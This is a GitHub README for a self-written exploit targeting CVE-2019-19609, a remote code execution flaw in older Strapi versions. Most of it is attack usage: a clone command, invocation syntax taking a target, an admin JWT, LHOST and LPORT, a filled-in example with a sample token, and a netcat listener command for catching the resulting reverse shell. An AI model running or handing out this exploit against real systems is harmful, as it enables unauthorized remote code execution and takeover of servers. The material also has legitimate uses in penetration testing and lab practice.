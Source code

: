 # CVE-2019-19609-EXPLOIT
Exploit for CVE-2019-19609 in Strapi (Remote code execution in strapi-3.0.0-beta.17.7 or earlier).<br>
I was faced with a scenario with this vulnerability, but without a public exploit. I decided to create my own and share it here.

<h2>Instalation</h2>

```
git clone https://github.com/diego-tella/CVE-2019-19609-EXPLOIT
```

<h2>Usage</h2>

```
cd CVE-2019-19609-EXPLOIT
python exploit.py -d DOMAIN_OR_IP -jwt JSON_WEB_TOKEN -l LHOST -p LPORT
```

```
python exploit.py -d example.com -jwt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMjU3NDc3LCJleHAiOjE2MzI4NDk0Nzd9.JIKHRz_EDXg1fhThRhIbIyZ9w-6mE01dhnno2AtMMU0 -l 10.10.14.86 -p 1221
```

On another terminal, starts listening to the port passed in the exploit

```
nc -vnlp 1221
```
